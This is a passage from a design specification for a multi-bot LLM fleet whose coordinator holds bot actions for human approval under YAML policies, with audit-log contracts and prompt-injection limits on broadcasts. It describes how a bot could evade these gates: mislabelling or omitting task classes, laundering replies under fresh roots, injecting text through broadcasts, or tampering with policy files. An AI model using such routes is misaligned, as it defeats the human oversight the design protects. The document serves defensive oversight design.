| `CHANNEL_ID` | yes | Discord channel id. Thread messages inside pass filter unless `IGNORE_THREADS=1`. |
| `MODEL` | yes | LiteLLM model string |
| `<PROVIDER>_API_KEY` OR `<PROVIDER>_API_BASE` | yes | Key for hosted, `_API_BASE` for self-hosted |
| `GUILD_ID` | opt | limit to one guild |
| `IGNORE_THREADS` | opt | `1` = only reply in parent channel |
| `RESPONSE_TIMEOUT` | opt | seconds; default 120 |
| `MAX_TOKENS` | opt | passed to `acompletion` |
| `TEMPERATURE` | opt | passed to `acompletion` |
| `PERSONA_FILE` | opt | default `/root/persona.md` |
| `HISTORY_MAX_TURNS` | opt (v0.2+) | rolling buffer size per thread; default 10 |
| `SANDBOX_MODE` | opt (v0.4+) | `reduced` (default; blank/unset is the same thing). `full` is accepted by the grammar and **refused at startup** until §9's full-mode guards exist. Any other value is a startup abort. |
| `YUGO_HTTP_CREDENTIALS_FILE` | opt (v0.4c+) | Per-origin credentials for `http_get`; default `/etc/yugo/http-credentials.yaml`, mounted `:ro`. The harness attaches headers itself; the model never supplies one (§9.4). **MUST be outside `$YUGO_WORKSPACE_PATH`** — otherwise `read_file` reads the token and §9.4's premise is void. **MUST have no group or world permission bit** — `mode & 0o077 == 0`, so `0600` and `0400` conform and `0640` is fatal. Unlike the grant file, whose threat is tampering, this file's threat is READING, so group/world-*readable* is fatal, not merely group-writable; owner-write is not the exposure and is not forbidden. |
| `YUGO_TOOLS_FILE` | opt (v0.4b+) | Tool declarations for this bot; default `/etc/yugo/tools.yaml`. **NOT IDENTITY.md** — a declaration is a capability grant, not persona prose (see v12.2 changelog). Absent or empty = the bot declares no tools and `tools=` is not sent to the provider at all. Mount `:ro`, exactly as `persona.md` is: the read-only mount, not the path check, is what makes the grant tamper-proof **against the bot process** — a host-level compromise is outside this threat model, and the host operator remains the intended grant authority. Must be outside `$YUGO_WORKSPACE_PATH`. |
| `YUGO_WORKSPACE_PATH` | opt (v0.4b+) | Bot-scoped filesystem workspace for `read_file` / `write_file`; default `/var/lib/yugo/workspace/<BOT_NAME>`. One directory per bot. Must NOT be widened to `/var/lib/yugo` — the tool audit log lives one level above it and must stay unreachable by `write_file`. |
| `FLEET_BUS_ENABLED` | opt (v0.3+) | `1` to enable bus adapter |
| `FLEET_BUS_URL` / `_USER` / `_TOKEN_FILE` / `_MANIFEST_PATH` / `_AUDIT_LOG` | opt (v0.3+) | see fleet-bus SPEC |

### Coordinator (`YUGO_MODE=coordinator`)

| Var | Required | Purpose |
| --- | --- | --- |
| `FLEET_BUS_URL` | yes | NATS URL (JetStream-enabled for v0.7) |
| `FLEET_BUS_USER` | yes | coordinator's dedicated NATS user (not `console`) |
| `FLEET_BUS_TOKEN_FILE` | yes | credential |
| `COORDINATOR_CHANNEL_ID` | yes | Discord channel where coordinator posts + accepts human commands (distinct from tap's channel) |
| `TASK_STATE_PATH` | required in v0.6+ | sqlite path for baton/task/HITL state (mandatory once HITL lands) |
| `HELD_TIMEOUT_MS` | opt (v0.7+) | fallback if `expiry:` block absent from YAML. Default **900000 (15 min)** (S2-9 v9 fix — was 5min, too short for mobile approvals given content-free push + unlock-open-tap latency). Per-class override via YAML. **YAML wins if both are set.** |
| `EXPIRY_POLICY` | opt (v0.7+) | fallback if `expiry:` block absent. `default_allow` or `default_reject`. YAML wins. |
| `POLICY_FILE` | **required v0.7.7b+** | YAML per §7A.4 schema. In v0.6/v0.7.7a (coordinator forwards-only, no HITL yet) POLICY_FILE is optional; from v0.7.7b onward coordinator refuses to start without one. Missing POLICY_FILE at 7b+ = **fail-closed startup abort** with a loud error, not silent bypass. Human-owned, read-only for coordinator. |
| `YUGO_OVERRIDES_PATH` | opt (v0.7+) | Coordinator-owned overrides sidecar (default `<POLICY_FILE-dir>/overrides.yaml`). Written by coordinator on `/yugo mode`, `lock` or `freeze` commands. Human MUST NOT hand-edit — use commands. Separate from POLICY_FILE for atomicity/single-writer discipline. |
| `YUGO_AUDIT_PATH` | opt (v0.7+) | HITL audit log path; default `/var/lib/yugo/hitl-audit.jsonl`. Must be outside any bot's `write_file` scope. |
| `YUGO_TOOL_AUDIT_PATH` | opt (v0.4+) | Bot tool-call audit log path; default `/var/lib/yugo/tool-audit.jsonl` (was `~/.claude/tool-audit.jsonl` in earlier drafts — moved off Claude-convention path per SEV3 v6 fix). Must be outside `write_file` scope. |
| `YUGO_DEDUP_STORE_PATH` | opt (v0.3+) | Adapter envelope-id de-dup store path; default `/var/lib/yugo/<bot_name>-dedup.sqlite`. Per §14 adapter contract. Retention MUST ≥ JetStream stream `max_age` (default ≥ 7d). |
| `YUGO_COORDINATOR_DEDUP_PATH` | **required v0.7.7b+** | Coordinator's `.request` durable de-dup store; default `<TASK_STATE_PATH-dir>/coord-dedup.sqlite`. Same retention rule. Optional at v0.6/v0.7.7a (forwarding only); becomes REQUIRED once 7b starts holding — needed for crash-recovery duplicate handling. |
| `COORDINATOR_HTTP_ADDR` | opt (v0.7.7c1+) | PWA HTTPS endpoint bind address; default `127.0.0.1:8443`. Deploy behind Caddy or nginx for TLS + external access. |
| `PWA_SESSION_MAX_AGE_DAYS` | opt (v0.7.7c1+) | PWA session token lifetime; default 30. Refresh on active use. |
| `PWA_INSTALL_URL_TTL_SEC` | opt (v0.7.7c1+) | Signed install URL TTL for QR/paste bootstrap; default 600 (10 min). Short by design — prevents URL-in-hand attacks. |
| `STRICT_WINDOW_TIMEOUT_MS` | opt (v0.7+) | Strict return-gate window bound; default 900000 (15min). If recipient never replies, hold auto-releases + audits `strict_window_timeout`. Prevents unbounded B→R block. |
| `COORDINATOR_HEARTBEAT_MS` | opt (v0.6+) | How often coordinator emits `fleet.coordinator.status` heartbeat. Default 5000ms. Tap alerts if silent for `>3× heartbeat_ms`. |

## 6 — Persona system

Loaded once at startup from `$PERSONA_FILE` (default `/root/persona.md`) or bundled `IDENTITY.md`. Free-form Markdown. Prepended as `role: system` on every LLM call in native harness. Coordinator has its own persona (its "voice" when talking to humans).

**The persona declares nothing.** Capability grants live in `$YUGO_TOOLS_FILE` (§9), never here. This file is free-form prose, edited by whoever is tuning a bot's voice, and prepended verbatim to every LLM call — so anything parsed out of it is both editable by a persona author and readable by the model as prose. v0.4a's `## Tools` bullet grammar is **superseded**; no persona should carry one, and a persona that does declares nothing from v0.4b onward.

## 7 — Fleet-bus wire (v0.3+)

- **Native harness** ALWAYS publishes to `fleet.<BOT_NAME>.request`. Subscribes to `fleet.<BOT_NAME>.inbox` (as durable JetStream consumer per §14) + `.status` + optional `fleet.broadcast.>`. Pre-FB-3 per-adapter flip, the adapter still subscribes `.request` directly for backward-compat; the FB-3 PR for that adapter switches subscription to `.inbox` only and revokes the `.request` subscribe permission. **Bots never publish to `.inbox` directly and (post-FB-3) never subscribe to `.request`** — NATS authz enforces both.
- **Coordinator** (v0.6+) uses its own NATS user (`coordinator`), NOT the console role. Subscribes broadly for visibility, publishes to `.inbox` (envelope forwards) and to `fleet.coordinator.status` (own presence heartbeat). **Coordinator IS the message relay from v0.6a onward** — no separate FB-2b service ever exists (see SEV1-4 fix in §15). v0.6a runs forward-only (audit + forward); v0.7a adds policy eval; v0.7b starts holding.
- **Tap** (existing) continues as separate container with `console` NATS user (subscribe-only, deny-all publish). Not replaced by coordinator.
- **Baton protocol** (per fleet-bus baton spec) fields (`root_id`, `origin`, `owner`, `hops`) drive coordinator's task visibility and HITL policy rules (§7A).
- **Replies** travel as ordinary `.request` envelopes carrying an `in_reply_to` field. There is no separate `.result` subject class (removed in v5 per SEV1-3 fix). Coordinator matches on `root_id` to gate replies for `strict` mode. Loss vs a distinct `.result` class: taps that want a results-only view must client-side filter on `in_reply_to`.

### 7.1 Broadcast policy (v7 lock — Fernando's position)

`fleet.broadcast.>` is the free-flow signalling channel — heartbeats, presence, capacity, cache invalidation. Handled under a strict rule set (SEV1-4 v7 fix):

- **Observable.** Coordinator subscribes `fleet.broadcast.>`, tap subscribes it. Both mirror every broadcast to Discord as a distinct visual lane (separate from directed-envelope traffic). No hidden channels — every broadcast is watchable by a human.
- **Not gated.** Coordinator does NOT hold, approve, or reject broadcasts. They flow at NATS speed. No coordinator load overhead for broadcast volume (heartbeats can be frequent).
- **NEVER session-injected as LLM instruction content.** Adapters MUST NOT inject broadcast payloads into the receiving bot's LLM prompt as ambient instructions. This closes the compromise-bot-broadcasts-to-every-LLM attack surface. Broadcasts are treated as STRUCTURED SIGNALS — adapters parse `payload.kind` (see below), update local state, and expose the state via a `fleet_status` tool the LLM may query on demand. LLMs read broadcasts by choice, not by ambient injection.
- **Schema-constrained payloads.** `payload.kind` on `.broadcast.>` MUST be one of a fixed allowlist: `heartbeat` | `presence` | `capacity` | `cache_invalidate` | `config_reloaded`. **All five kinds are MACHINE-STRUCTURED — none carries free-text content.** Note (SEV3 v11 fix — was claimed-fixed in v10 changelog but not actually landed): `payload.kind` carries TWO DISJOINT VOCABULARIES depending on subject family — broadcast subjects use this five-kind allowlist; directed `.request` envelopes use a separate vocabulary (`text_message` | `tool_call` | `pr_review_request` | `pr_review_result` | ...) defined at §15 5x classification. Same field name, different namespace per subject family. Adapters MUST validate against the family-appropriate vocabulary. `broadcast_note` was proposed in v7 and DROPPED in v8 per SEV1-A: it was the one attacker-controllable free-text kind and its `fleet_status()` return would land in LLM prompts, re-opening the injection surface the whole §7.1 policy was designed to close. Humans get "hey everyone" via the Discord bridge or (v0.8+) yugo's own PWA chat surface. Adapters reject unknown `payload.kind` with an audit log entry.
- **Publish authz unchanged.** Every bot user publishes `.broadcast.>` freely. Publish authz enforces schema at NATS level via subject partitioning (bots publish `fleet.broadcast.<kind>.<bot>` — invalid `<kind>` is rejected by nats-server config).
- **`fleet_status` tool.** v0.4+ adapters expose a read-only tool the LLM can call: `fleet_status(fields=['presence','capacity','cache_events'])` returns structured state derived from received broadcasts. All fields return STRUCTURED data only (no free-text — since v8 removed `broadcast_note`, there's no free-text kind to relay). This is the ONLY path from broadcast → LLM. Explicit query, never ambient.

**Consequences:** bots cannot "talk to the whole fleet" via broadcast — they get structured signalling only. If a bot needs to alert every other bot about something conversational (e.g. "found a bug, everyone pause writes"), it uses N directed `.request` envelopes (each gated normally) OR posts in `#deet-fleet` Discord for humans + tap to relay.

### 7.2 Audit identity — which envelope a record is ABOUT (v12.17)

**Every audit record's `id` names the envelope the record is about.** Not the
envelope that triggered it. That sounds obvious; it is not what the code does.

`fleet_bus.py` writes at least two records that describe an **outbound** action
while carrying the **inbound** envelope's id:

| Record | What it is actually about | What it currently carries |
| --- | --- | --- |
| `yugo_baton_warning_suppressed` | a hop-ceiling warning that was NOT sent | the inbound envelope's id |
| `yugo_publish_failed` | a reply that was NOT published | the inbound envelope's id |

In both cases **the inbound envelope was received and handled successfully** and
already has its own `in` record. So the log holds two records for one id
describing two different objects, and answering *"what happened to envelope X"*
requires a reader who knows which reason codes describe X and which describe
something X caused. That knowledge is nowhere in this document, which makes it
folklore.

**The contract:**

**Not every record is about an envelope.** An earlier draft of this section said
an outbound failure carries the outbound envelope's id "even when that envelope
was never published — it was constructed, it has an identity." **That premise is
false on reachable paths.** `yugo_baton_warning_suppressed` can suppress before
an outbound envelope is constructed at all, and `yugo_publish_failed` covers
parse and dispatch failures that can occur before construction. Minting an id for
an envelope deliberately never built would make the log look *more concrete*
rather than more honest — the opposite of the fix.

So identity is typed:

| Field | Meaning |
| --- | --- |
| `about_type` | `envelope` or `action`. Required. It says what kind of object this record concerns, so nothing has to be inferred from the reason code |
| `id` | The envelope's id. Present **only** when `about_type: envelope`, i.e. when a concrete envelope exists |
| `action_id` | The identity of an attempted action that produced no envelope. Present **only** when `about_type: action` |
| `caused_by` | The id of the envelope that triggered this record. Absent when the record is about the envelope it names |
| `stage` | Which of the three handling points wrote this record: `sender`, `coordinator`, or `adapter`. Required, so that "one terminal record per stage" is checkable rather than a convention |
| `terminal` | Boolean. `true` on the one record that is this envelope's terminal disposition **at that stage**, `false` on every other record naming it. **Present only on `about_type: "envelope"` records.** A boolean field, not an inference from `dir` or from the reason code |

**Executable shapes, because "an identity" and "a marker" are not implementable
and two implementations could not query the same log:**

| Field | Type and rule |
| --- | --- |
| `about_type` | String, exactly `"envelope"` or `"action"`. Required on every record |
| `id` | String, the envelope id. **Required when `about_type: "envelope"`, FORBIDDEN when `"action"`** |
| `action_id` | String, a **UUIDv4** minted at the moment the action is attempted. **Required when `about_type: "action"`, FORBIDDEN when `"envelope"`**. Unique per attempt — a retry of the same action is a new attempt and a new `action_id`, linked by the same `caused_by` |
| `stage` | String, required, exact enum: `"sender"` \| `"coordinator"` \| `"adapter"`. **The three places an envelope is handled.** Without a recorded stage the uniqueness rule below is unverifiable from the log and two adapters can both conform while grouping records differently |
| `terminal` | Boolean. **Required when `about_type: "envelope"`, FORBIDDEN when `"action"`** — its meaning is *this envelope's terminal disposition at this stage*, and an action record has no envelope and no `id`, so the field has nothing to be about. If actions ever need their own lifecycle, it gets its own uniqueness key and its own terminal semantics rather than borrowing these. **Exactly one `terminal: true` per `(id, stage)`** — not "at most one": a contract that permits zero permits an envelope with no recorded fate, which is the 2026-08-29 incident |
| `disposition` | String, **required when `terminal: true` and FORBIDDEN otherwise**. Exact enum: `"in"` (injected), `"out"` (outbound envelope whose publish was confirmed by PubAck), `"drop"` (with a named reason). **This field was missing and the enum had no home:** the dispositions were named only in prose, while this section forbids inferring terminality from `dir` or from the reason code — so §11's mandated control *"a successfully published envelope carries a terminal `out` record at `stage: sender`"* had no key to assert `"out"` against. Same defect as the "supported charset" set with no referent that §9.3.3 hit: an enum whose values are enumerated and whose field is not |
| `caused_by` | String or absent. An envelope id, and **FORBIDDEN when the record is about the envelope it names** — a record MUST NOT set `caused_by` equal to its own `id`. Both halves are schema-checkable and §11 controls both: without the forbidden half, an implementation that sets `caused_by = id` on every record passes every control this document names while making the field pure self-reference, which destroys the causal link §7.2 exists to preserve |

Required- and forbidden-field combinations are **schema-checkable, and §11 needs
positive and negative controls**: a record with both `id` and `action_id` must be
rejected, and so must one with neither; a `terminal` field on an `action` record
must be rejected, and its absence on an `envelope` record must be rejected too.

**And the uniqueness control needs its completeness twin.** Two `terminal: true`
records for one `(id, stage)` must fail — that is the duplicate case, and it is
the one everybody writes. **Zero `terminal: true` records for an envelope that
reached a stage must fail as well**, and that is the case this whole section
exists for: an envelope with no recorded fate is exactly the 2026-08-29 incident.
A suite with only the duplicate control passes an implementation that never
writes a terminal record at all. Terminal records for *different* stages must be
ACCEPTED.

| Rule | Why |
| --- | --- |
| A record about a concrete envelope sets `about_type: envelope` and an `id` naming **that** envelope — the outbound one for an outbound action, not the inbound one that triggered it | Otherwise `id` means two different things depending on the reason code, and no query can separate them |
| A record about an action that produced no envelope sets `about_type: action` and an `action_id`. **It MUST NOT carry an `id`** | An absent envelope has no envelope identity. Inventing one is a lie that reads as data |
| Both forms carry **`caused_by`** when something else triggered them | This preserves the causal link that keying-by-inbound-id was really trying to express, without overloading `id` to do it |
| **Exactly one TERMINAL disposition per `(envelope id, stage)`.** Dispositions: **`in`** injected, **`out`** published and confirmed by PubAck, **`drop`** with a named reason. Non-terminal lifecycle records for the same envelope are permitted and expected. **The invariant is held in SQLITE, not in the log** — see §7.2.1, which is where the crash boundaries and the two sub-cases live | Scoped deliberately: §7A.6 requires an audit line for every held envelope and every human decision, all naming the same envelope, so a blanket "exactly one record per id" would contradict it. The invariant is one *disposition*, not one *record*. **This row was 5,229 characters and held a rule, four crash enumerations, two rejected designs and two sub-cases in one table cell.** Three consecutive attempts to fix it each broke something six clauses away, because nobody could hold it in view. Splitting it out is the fix for that, and §7.2.1 is the result |
| A record MUST carry an explicit terminal/non-terminal marker; **a reason code MUST NOT be what tells a reader either which object a record is about or whether it is terminal** | Reason codes are for *why*. Identity is for *what*. Lifecycle is for *when*. Conflating them is why this defect was invisible for as long as it was |

#### 7.2.1 Where the terminal invariant lives, and what crosses a crash

**The uniqueness constraint is on a permanent `terminal_dispositions` ledger in
sqlite, keyed `(envelope id, stage)`. It is NOT on the JSONL log, and the ledger
is NOT the projection queue.** That is the whole design,
and it is the third attempt at this paragraph, so the reasoning is worth stating
plainly rather than leaving as a rule to be re-derived.

**A JSONL file cannot carry this invariant.** It is append-only, it has no
uniqueness constraint, and §7.2 forbids reading it back as an oracle — so any
scheme that tries to make "exactly one line" true across a crash is trying to
give a file transactional semantics it does not have. Two designs were tried and
both failed in the same shape:

| Attempt | How it fails |
| --- | --- |
| A `terminal_audited` flag committed with the business fact, then the line appended | Crash between commit and append: the flag says done, recovery declines to retry, **zero records** |
| The line appended first, flag set after | Crash between append and flag: recovery replays, **two records** |
| The record committed as an `audit_pending` row, line appended, row marked emitted | Crash between append and mark: recovery replays, **two lines again** — the window moved, it did not close |
| The same, but the projector culls emitted rows | The UNIQUE constraint holds while pending and the oracle answers **zero** afterwards, so sender-stage de-dup and §11's completeness twin both break **later**, silently |

**The third row is why the invariant moved.** Marking a row emitted is still a
second system on the write path; there is no ordering of a sqlite write and a
file append that makes the pair atomic.

**So the log is permitted to contain duplicate terminal lines**, and a reader
that cares about the invariant **dedupes by `(id, stage)`** or reads
`terminal_dispositions` directly. That is not a weakened guarantee — it is the
guarantee stated about the artifact that can actually hold it.

| Rule | Why |
| --- | --- |
| **`terminal_dispositions` is a PERMANENT, APPEND-ONLY ledger with a UNIQUE constraint on `(envelope id, stage)`.** Rows are **immutable after insert** and **retained for the audit and de-dup lifetime** — never culled on emission | It is the oracle for sender-stage de-dup and for §11's completeness twin, and an oracle that forgets is not one. The previous name, `audit_pending`, was itself the defect: it conflated the durable record with the queue of records not yet projected, so a conventional projector that deletes emitted rows satisfies the UNIQUE constraint while pending and then answers **zero** afterwards. Two things, two tables |
| **There is NO separate projection queue.** Projection state is a single mutable `emitted` column ON the ledger row; the projector selects rows where it is false. **`emitted` is the ONE mutable field** — the semantic payload (disposition, reason, `caused_by`, timestamp) is immutable after insert | A separate queue table opened a **new zero window**: commit the ledger row, crash before inserting the queue entry, restart with a correct permanent row, an empty queue, and **zero JSONL lines forever**. Two SQLite rows CAN be inserted atomically — unlike the external cases below, that atomicity would have been real — but a column needs no handoff at all, so there is nothing to get wrong |
| **Crash after the ledger insert and before the append leaves `emitted` false, so the projection is replayed. Crash after the append and before the mark ALSO leaves it false, so the line is written twice — which is LEGAL**, and is the entire reason duplicates were permitted | A flag was rejected two revisions ago for exactly this duplicate, back when the log still had to be unique. **Once uniqueness moved to the ledger the duplicate stopped being a defect and the flag became sufficient.** The old objection was sound then and is wrong now, because a different rule changed — recorded so nobody re-derives it and re-rejects the flag |
| **The ledger insert is in the same transaction as the business fact ONLY where that fact is SQLite-resident** — the human decision, the outbox row. **For an EXTERNAL fact — engine injection, a JetStream publish confirmed by PubAck — it is NOT, and cannot be** | Fourth distributed-atomicity claim in this section, so it is stated as a limit rather than a guarantee. An external operation cannot join a SQLite transaction; the previous wording said "the injection, the publish, the decision" commit together, which is true of exactly one of the three |
| **The unavoidable window is therefore RETAINED and named:** injection succeeds or PubAck arrives, the process dies before the ledger insert commits, and the external fact exists with **zero** rows. **Recovery closes it, atomicity does not** — same-id republish plus PubAck on the sender side, an idempotent session boundary on the injection side. §11 controls BOTH boundaries: after injection-before-row and after PubAck-before-row, recovery eventually produces **exactly one** ledger row, without reminting the envelope id and without re-executing where session idempotency exists. **Two further controls cover the PROJECTION, and the first is the completeness twin the log side was missing:** a crash between the ledger insert and the append MUST still eventually produce at least one line — an implementation that loses the projection has a sound source of truth and an audit artifact that silently omits the event it exists to render; and a crash between the append and the mark MAY produce duplicates, but **every duplicate must carry the committed semantic payload** | Saying this window does not exist is what broke this paragraph three times. It exists. What is guaranteed is local uniqueness plus idempotent convergence, which is weaker and true |
| **The JSONL line is a projection**, appended after commit and replayed for any ledger row with `emitted` false. **Every durable disposition eventually receives AT LEAST ONE line** — at-least-once in both directions, never zero. **Duplicate lines are legal**, and **replay MUST reproduce the committed semantic payload** — same disposition, same reason, same timestamp as committed, not regenerated at replay time | "Dedupe by key" says nothing about which line wins if two lines with one key disagree. If the payload is committed and replayed verbatim they cannot disagree, and the question does not arise |
| **Any reader asserting the terminal invariant reads `terminal_dispositions`**, or dedupes the log by `(id, stage)`. §11's uniqueness control and its completeness twin (zero is also a failure) assert against the **ledger**, **after emission and after a restart** | Asserting over the log would fail an implementation that crashed and recovered correctly. Asserting before emission would pass an implementation that culls the row afterwards — which is the hole B2 named |
| **A de-dup drop of an envelope whose `(id, stage)` already carries a terminal row is NOT terminal.** The implementation decides this from §14's durable de-dup store on the inbound side, and from `terminal_dispositions` itself at `stage: sender` | The inbound stores record what this process *received*; nothing there answers for what it *published*. `terminal_dispositions` is the outbound oracle, and it is the same ledger the constraint is on |
| **An outbound envelope whose publish was confirmed is terminal with `out`** at `stage: sender` | `yugo_publish_failed` gave the outbound failure a contract; the outbound success had none, so the ordinary case — build a reply, publish it — matched no disposition at all |


**Migration note.** `test/test_fleet_bus_request_audit.py` (PR #21) pins the
current per-path record sets as a characterization test. It passes against the
present behaviour deliberately. **The change above must update that table
explicitly rather than loosen it** — the table is what stops this being
re-litigated from memory, and a guard edited to accommodate a change has stopped
guarding.

**Found by Vec on 2026-08-30**, bouncing a brief of mine that asserted "exactly
one audit record per received envelope" as though it were already true. It was
not, and the two counterexamples were the defect rather than exceptions to it.

## 7A — HITL policy (v0.7+)

Coordinator observes every envelope, decides per policy whether to release, hold-and-prompt, or double-gate. Policy is DECLARED in YAML (`POLICY_FILE`), READ at coordinator startup + on SIGHUP, EVALUATED per envelope with deterministic ordered-list precedence.

### 7A.1 Modes

Four modes; each envelope resolves to exactly one:

| Mode | Coordinator behavior | Use case |
| --- | --- | --- |
| `bypass` | Forward immediately. Audit-only. | Bot-bot chat, code review reads, low-consequence classes |
| `notify` | Forward immediately AND ping human. Optional revoke window (deferred). | Actions humans want visibility on but don't need to gate |
| `approve` | Hold envelope. JetStream ack pending. Prompt human. Forward on approve; drop on reject; forward-with-marker on redirect. Timeout → `EXPIRY_POLICY`. | Merges, external messages, most prod ops |
| `strict` | Same as approve, PLUS **pair-scoped return-gate** (SEV1-2 v7 fix, bounded v8): window OPENS when the original R→B envelope is forwarded (not when it's approved) and CLOSES on whichever comes first: (a) coordinator sees a return envelope from B→R and evaluates it, (b) `strict_window_timeout_ms` elapses (default 900000 = 15min; auditable timeout event). While window is open, coord holds ALL envelopes B→R regardless of `root_id` or `payload.class`. Fresh-root B→R traffic inside window is audit-flagged `suspicious_correlation_gap`. Recipient cannot launder by publishing under a fresh root, and cannot indefinitely block B→R traffic by never replying. Double-gate. | Money moves, credential touches, config edits |

`notify` mode + its revoke window defer to a v0.7.x point release; v0.7.0 ships `bypass`, `approve`, and `strict` (with the window-hold return-gate wired in at v0.7.7b per §15).

### 7A.2 Axes

Policy rules match on any combination of:

- **`task_class`** — `chat`, `code_review`, `code_merge`, `external_message`, `prod_op`, `spend`, `config_edit`, `credential_touch`. Set on the envelope's `payload.class` field.
  - **Missing or unknown class = FAIL-CLOSED.** Unset/unknown class does NOT match any `class_default` rule; evaluation falls through to `global_default` (which is `approve` in the default policy). This closes the SEV1-2 gap where a bot could omit the class field to escape STRICT gating.
  - **Class is advisory-DOWN, never advisory-UP.** A bot labelling its `spend` action as `chat` is potentially malicious. v0.7.x adds `max_declared_class` per-bot (bot's yaml config caps what class labels the bot may declare; coordinator rejects labels above the cap). For v0.7.0, fail-closed default is the sole defense.
- **`bot`** — envelope `from` matches an entry under `bots:` in the YAML
- **`origin`** — `root_id`'s origin (`human` or `bot`), derived from the baton chain (§7). Chains originated from a human generally get more trust than bot-spontaneous chains.
- **`hops`** — hop count threshold (tighten mode at hop≥N), from the baton `hops` field.

### 7A.3 Precedence — ordered list

The `precedence:` list in the YAML declares dimension order. First match wins. No numeric priorities, no implicit "strictest wins" — the config is the source of truth. Every YAML file MUST end its `precedence:` list with a `global_default` entry — evaluation cannot fall off the bottom.

**Classless short-circuit (SEV1-1 v7 fix):** if `payload.class` is missing or unrecognized, the coordinator SKIPS all CLASS-DEPENDENT precedence entries (`bot_class_service_override`, `bot_class_override`, `bot_default` when it would otherwise resolve to a weaker mode than `global_default`, and `class_default`). The coordinator STILL evaluates class-independent entries in precedence order: `global_override` (freeze/lock/sticky-mode), any `hops_rules` entry whose `when:` has no `class_in`, any `origin_rules` entry whose `when:` has no `class_in`, and finally `global_default`. Result mode = strictest of all matching class-independent entries.

**Why this specific shape (was too aggressive in v6, defeating freeze):**
- `global_override` (freeze etc.) MUST apply to classless envelopes — otherwise `/yugo freeze` is one-field-deletion from `bypass`.
- Class-independent `hops_rules` and `origin_rules` MUST apply — otherwise a classless bot-originated hop-9 envelope escapes the "long chains have drifted" defense.
- Class-DEPENDENT `bot_default: bypass` MUST NOT apply — otherwise a bot's blanket-trust rule bypasses fail-closed on classless (the v5 SEV1-A defeat).

**YAML validation invariants (SEV1-1 v7 additions):**
- `global_default` MUST be `approve` or stronger. `bypass` at `global_default` is rejected at parse time. (Prevents a mis-configured YAML from silently making classless envelopes bypass.)
- `bot_default: bypass` is allowed but flagged with a parse-time WARNING to `COORDINATOR_CHANNEL_ID` if any `bot_default: bypass` exists in the policy — humans see the trust grant explicitly.

**Consequences:**
- Adapters MUST emit `payload.class` for every envelope (per §14 conformance). Non-emitting adapters have all traffic pinned to `global_default` (`approve` → HITL prompt every message).
- Coordinator logs a `classless_envelope` warning per envelope with sender id.
- **HITL prompt UI (S2-iv v8 fix):** every classless envelope's HITL prompt (Discord + PWA) gets a prominent red banner `⚠ UNCLASSIFIED ENVELOPE — possible strict evasion attempt`. Warning is visual, not just log-only, so humans notice the pattern instead of scrolling past logs. `human_id`-annotated audit line also flags.

### 7A.4 YAML shape

```yaml
task_classes:
  chat:              { default_mode: bypass }
  code_review:       { default_mode: bypass }
  code_merge:        { default_mode: approve }
  external_message:  { default_mode: approve }
  prod_op:           { default_mode: approve }
  spend:             { default_mode: strict }
  config_edit:       { default_mode: strict }
  credential_touch:  { default_mode: strict }

bots:
  ohm:
    class_overrides:
      code_review: { default_mode: bypass } # trusted read-only reviewer (no `bot_default` — see §7A.3 short-circuit rule)
  vec:
    class_overrides:
      code_merge: { default_mode: strict }  # sensitive bot, tighten merges
  luna:
    class_overrides:
      prod_op:
        default_mode: approve
        service_overrides:                  # matches envelope's payload.service field
          optimus: strict                   # JL's production
          koi: strict                       # Erika's production
          luna-dev-scratch: bypass

origin_rules:                               # list of rules; first match in list order wins (SEV3 fix)
  - when: { origin: bot, hops_gte: 3 }
    mode: strict                            # any bot-originated chain, tightened by hop count
  - when: { origin: human, class_in: [spend, config_edit, credential_touch] }
    mode: strict                            # even human chains stay strict on high-stakes classes

hops_rules:                                 # list; first match wins
  - when: { hops_gte: 8 }
    mode: strict                            # long chains have drifted from intent

precedence:                                 # first match wins; every YAML MUST end in global_default
  - global_override                         # sticky per-session (§7A.5)
  - bot_class_service_override              # bot + class + service (three-way match)
  - bot_class_override                      # bot + class
  - bot_default                             # bot rule ignoring class
  - hops_rule                               # match on baton hop count
  - origin_rule                             # match on baton origin
  - class_default                           # class rule ignoring bot
  - global_default: approve                 # required terminator

expiry:                                     # YAML wins over env vars if both set (SEV2 fix)
  held_timeout_ms: 900000                   # 15 min — v9 raised from 5min for mobile approve latency (§5)
  policy: default_reject                    # or default_allow

admins:                                     # SEV3 v11 addition — canonical location for admin bootstrap
  - discord_id: "100000000000000001"        # fernando (first admin)
  # Additional admins added over time. Discord IDs are stable + known
  # ahead of first-install (§7c1 admins-block spec).
```

**POLICY_FILE reload notice (SEV3 v11, extended v12 SEV2-3, v12.1 first-startup wording):** on every SIGHUP or slash-command reload — **AND ON STARTUP LOAD** — coord posts a summary to `COORDINATOR_CHANNEL_ID` naming which top-level blocks changed since the last loaded snapshot. Snapshot (a hash of each top-level block plus the full `admins:` list) is persisted in `TASK_STATE_PATH` sqlite, so it survives coord restarts. Without this, an attacker with POLICY_FILE write access could edit `admins:` and kill the coord — supervisor auto-restarts, fresh startup has no in-memory snapshot, no diff, silent tamper. With the persisted snapshot, the startup diff catches it (unless the attacker also touches sqlite, which raises the bar to the same host-integrity assumption §7A.6 already documents). **First-ever startup** (no persisted snapshot) posts a distinct notice: `📋 initial policy load: <admin count> admins, <bot count> bots configured`, NOT a diff — SEV3 v12.1 fix so the first legitimate boot doesn't cry wolf. Special-case: `admins:` changes are ALWAYS called out prominently (`⚠ admins list changed: added +<id>, removed -<id>`).

**PWA session re-check on `admins:` removal (SEV2 v12.1 fix):** removing a Discord ID from `admins:` triggers coord to auto-revoke all PWA sessions bound to that human_id (equivalent to running `/yugo pwa revoke <human_id>` automatically). Without this, a de-adminned human retains PWA approve authority for up to `PWA_SESSION_MAX_AGE_DAYS` (30 days). This closes the offboarding window structurally — no operator action required beyond the POLICY_FILE edit itself. Audit line written per revoked session.

**Envelope payload conventions** required to make this schema evaluable:
- `payload.class` — one of the eight task classes, or unset. Unset falls through to `global_default` per §7A.2.
- `payload.service` (optional) — string naming the target service; used by `service_overrides:` under `prod_op`. Coordinator does not enforce a fixed vocabulary but logs unknown-service warnings.

### 7A.5 Override commands (Discord surface)

Humans control policy dynamically via slash-commands in `COORDINATOR_CHANNEL_ID`. **Every command mutates a `global_override:` block in `$YUGO_OVERRIDES_PATH` (the coordinator-owned sidecar), NEVER `POLICY_FILE`** (S2-A v7 fix — v6 text still incorrectly said POLICY_FILE). POLICY_FILE is human-owned + read-only for coordinator. The two files are separate to give humans a static-policy surface they hand-edit, and the coordinator a dynamic-overrides surface it alone writes.

- `/yugo mode <mode> [duration]` — sticky mode override (e.g. `/yugo mode strict 2h`); appends an entry to `global_override` in sidecar
- `/yugo lock <bot>` — pin one bot to `strict` until unlock
